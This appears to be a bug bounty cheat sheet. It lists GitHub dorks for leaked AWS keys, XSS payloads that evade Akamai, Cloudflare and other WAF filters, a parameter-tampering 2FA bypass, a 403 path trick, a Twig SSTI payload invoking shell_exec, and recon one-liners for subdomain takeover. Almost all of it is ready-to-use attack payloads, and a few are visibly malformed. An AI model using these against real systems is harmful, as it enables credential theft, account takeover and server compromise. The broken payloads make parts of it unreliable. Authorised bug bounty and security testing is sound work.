 # Bug Bounty Tips File -2
## Github Search for Sensitive Info
```
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target  "AWS_ACCESS_KEY_ID"
org:Target  "list_aws_accounts"
```
## XSS Firewall Bypass Techniques
1. Check if firewall is blocking only lowercases
```js
<sCRipT>alert(1)</sCRiPt>
```
2. Try to break firewall regex with new line (\r\n)
```js
<script>%0aalert(1)</script>
```
3. Try double encoding
`%2522`
4. Testing for recursive filters, if firewall removes text in red, we will have clear payload
```js
<scr<script>ipt<alert(1);</scr<script>ipt>
```
5. Injecting anchor tag without whitespaces
```js
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
```
6. Try to Bypass whitespaces using Bullet
```js
<svg•onload=alert(1)>
```
7. Try to chnage the Request Method
```js
GET /?a=xss

POST /?a=xss
```
**New Payload to Bypass WAF**
```js
<script>alert?.(document?.domain)</script>
```
## Find xmlrpc in single shot
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```
## Bypass Multifactor Authentication
1. Notice both the request while login when 2FA is enabled and disabled
2. While 2FA is Disabled :

**Request**
```json
{"email":"abc@mail.com","pass":"password","mfa":null,"code":""}
```
**Response**
```json
Location : https://abc.com/user/dashboard 
```
3. While 2FA is Enabled :

**Resuest**
```json
{"email":"abc@mail.com","pass":"password","mfa":true,"code":""}
```
**Response**
```json
Location : https://abc.com/v1/proxy/authentication/authenticate
```
4. Tamper the Parameter and change the "mfa":null and "code":"" to disable the 2FA
```json
Location : https://abc.com/user/dashboard
```
## DOM XSS
![dom-xss](/Writeups/Bug-Bounty-Tips/img/20201007_195906.jpg)
## WAF Bypass 
![waf-bypass](/Writeups/Bug-Bounty-Tips/img/waf-bypass.jpg)
## Automate Subdomain Takeover
```sh
cat subfinder -dL domain.txt -o sub.txt && subjack -w sub.txt |toslack
```
***Put it on cron to run once a day***
## Akami WAF Bypass
Reflection in "a" tag, attribute context:
```
< => allowed
<anything> => access denied
quotes => allowed
onanything= => access denied
/ or \ or eval() => access denied
```
**Bypass**
```js
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
```
## Find Reflected XSS
1. subfinder + httprobe
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
2. Check the URL which have all the special characters unfiltered and the paramater was callback=
3. Check Portswigger XSS CheatSheet for more information.
## XSS Cloudflare Bypass
```js
<x/onpointerRawupdate=confirm%26Ipar;1)//x
```
## Bypass Admin Location
1. If GET /admin/ is 403
2. Try this GET /admin;/
## Server SIde Template Injection
```sh
{{_self.env.registerUndefinedFilterCallback('shell_exec')}}{{_self.env.getFilter('dir)}}
```
**Tool for Burpsuite**
> ***https://github.com/antichown/0x94TR***   
> ***For more info - Exploit Proof of Concept***   
> ***https://youtu.be/TrQi9iwtA0k***
